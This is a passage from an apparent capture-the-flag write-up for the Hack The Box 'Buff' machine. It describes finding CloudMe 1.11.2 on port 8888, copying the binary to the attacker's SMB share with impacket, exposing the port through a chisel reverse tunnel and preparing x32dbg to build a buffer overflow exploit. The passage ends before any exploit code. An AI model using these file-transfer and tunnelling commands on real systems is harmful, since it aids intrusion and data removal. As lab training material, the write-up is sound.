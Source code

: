 I also find a process listening on port 8888, by  using a oneliner I can identify that is indeed CloudMe running at different intervals of time.

```bash
C:\Users\shaun>netstat -noa
TCP    127.0.0.1:8888         0.0.0.0:0              LISTENING       1284

C:\Users\shaun> for /f "tokens=5" %a in ('netstat -ano ^| findstr :8888') do wmic process where processid=%a get Caption,CommandLine

C:\Users\shaun>wmic process where processid=1540 get Caption,CommandLine 
Caption      CommandLine  
CloudMe.exe  
```

> There are various public buffer overflow exploits for cloudme 1.11.2 in the [exploit-db](https://www.exploit-db.com/) database, but for the case of this writeup I'll explain the process of how to create a basic buffer overflow exploit. 

First I'll copy the cloudme executable to my machine, I will do this through a smb share 

1. On my linux machine
```bash
$ impacket-smbserver smbFolder `pwd` -smb2support
```

2. On the target windows machine
```bash
C:\Users\shaun\Downloads>copy CloudMe_1112.exe \\10.10.14.13\smbFolder\
```

Then I import and install the executable and create a direct link to my desktop in a windows 10 virtual machine where I will use [xdbg](https://x64dbg.com/) specifically the 32 bit version x32dbg and with its respective plugin [ERC](https://github.com/Andy53/ERC.Xdbg) to debug the binary.

I also import chisel on the windows_debug machine to expose the port 8888, note that is necessary to disable windows defender in real time to make use of chisel.

1. to expose the internal port first I create a chisel server on my linux machine
```bash
$ ./chisel_1.7.3_linux_amd64 server --reverse --port 1234
```

2. on the windows_debug machine I connect the chisel client to my server

```bash
C:\Users\user\Desktop>chisel_1.7.3_windows_amd64 client 192.168.56.1:1234 R:8888:127.0.0.1:8888
```

To import the file to xdbg I'll do  the following
1. go to File > Open > CloudMe.exe

![Desktop View](/assets/img/htb/buff/file_open.png)

2. click repeatedly on the run button until the program starts

![Desktop View](/assets/img/htb/buff/run_button.png)

Once the program starts I'll begin to write the exploit script in python.
